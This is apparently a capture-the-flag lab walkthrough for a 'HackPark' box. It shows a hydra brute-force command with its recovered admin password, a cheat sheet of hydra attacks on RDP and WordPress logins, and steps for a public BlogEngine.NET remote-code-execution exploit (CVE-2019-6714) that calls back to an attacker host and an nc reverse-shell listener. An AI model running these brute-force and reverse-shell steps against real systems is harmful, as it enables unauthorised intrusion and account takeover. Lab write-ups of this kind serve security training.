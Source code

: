 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.85.185 http-form-post "/Account/login.aspx?ReturnURL=/admin:\_\_VIEWSTATE=n2Y4BvVM5bhPxAiXh74eXb7%2F8bdFppITpAKoQzTYg%2F2Om8M2jGykZaw0JQHHB7hSlgHYkUTBvZKICSfpKgSGO7WToz%2F5w8knI%2BcOvKnYLsFIoll7jX6KwikzZLXashyviPyM9cozXH3WjB1ntR6ZDzvWtv11PxlYsmLCF4cBDmyAIQZ8wcagcXhF%2BssBYrpkopBVNWT03AkHUXHBVrSr%2BtiPAHdxdQJgEwOrY2c6otNnHWnwHZ8M%2FwlLhfplATLyIIfw00UzSNyS9IO7iuKLDQfvVv9SlS5LxbJj%2FZiOTaFIwfsvD8GYpSOmkxhb8mnfa46dJ5GYwACBfy1xWPRhtGbfz1gUOunVnQ1n9GjBPnqiWjiD&\_\_EVENTVALIDATION=YN0knyrHqnj2RIDRzLwosbSl6DHwbB8zpiYoY%2FMw4N0J0gthwdTUm6moqRkULBrBukYlEAJq9Mwxc5Yfi4TBMemG8xjPaVMXN2P6AM0MY5ssFs2K93q4Xn4am8cO2wzdh3TMIbY%2BOifwxGGvHMA6RJIHcpVe%2FjrCVFdCaR2RjG%2FhIpRl\&ctl00%24MainContent%24LoginUser%24UserName=^USER^\&ctl00%24MainContent%24LoginUser%24Password=^PASS^\&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -vV

\[80]\[http-post-form] host: 10.10.85.185 login: admin password: 1qaz2wsx

| **Command**                                                                                                                                      | **Description**                                                                                                |
| ------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------- |
| hydra -P \<wordlist> -v \<ip> \<protocol>                                                                                                        | Brute force against specific protocol.                                                                         |
| hydra -v -V -L \<username list> -P \<password list> -t -u \<p> \<protocol>                                                                       | Bruteforce usernames. Loops through every combination in the lists. -v -V verbose mode showing login attempts. |
| hydra -t 1 -V -f -l \<username> -P \<password list> rdp://\<ip>                                                                                  | Bruteforce Windows Remote Desktop using password list.                                                         |
| hydra -l \<username> -P \<password list> $ip -V http-form-post '/wp-login.php:log=^USER^\&pwd=^PASS^\&wp-submit=Log In\&testcookie=1:S=Location' | Craft more specific request to bruteforce.                                                                     |

### **Compromise the target** <a href="#id-8ublueas01cm" id="id-8ublueas01cm"></a>

**1.**[ **Identify exploit from Exploit Database**](https://www.exploit-db.com/) **to gain initial access.**

* Exploit-db is common Vulnerability and Exposures (CVE) archive of public exploits.
  * Used by pentesters and vulnerability researchers.
  * Owned by Offensive Security.
* Log into blogengine.net website on target using bruteforced credentials.
  * **Burger menu** > **About** shows version as 3.3.6.0.
  * Application is vulnerable to[ BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution](https://www.exploit-db.com/exploits/46353).
    * [CVE-2019-6714](https://nvd.nist.gov/vuln/detail/CVE-2019-6714).

**2. Execute public exploit.**

* Create "HackPark" folder on attack host's Desktop.
* Download[ exploit from Exploit Database](https://www.exploit-db.com/exploits/46353) into folder.
* Edit exploit with vim.
  * Change **TcpClient** address to attack host.
  * Save and exit vim.
* Rename exploit to PostView.ascx.

cp 46353.cs PostView.ascx

* Start reverse TCP listener on attack host.

nc -lvnp 4445

* Upload PostView.ascx to target.
  * Use **File Manager** feature.
    * Edit a post > click on icon that looks like an open file in the toolbar.
  * Save post.
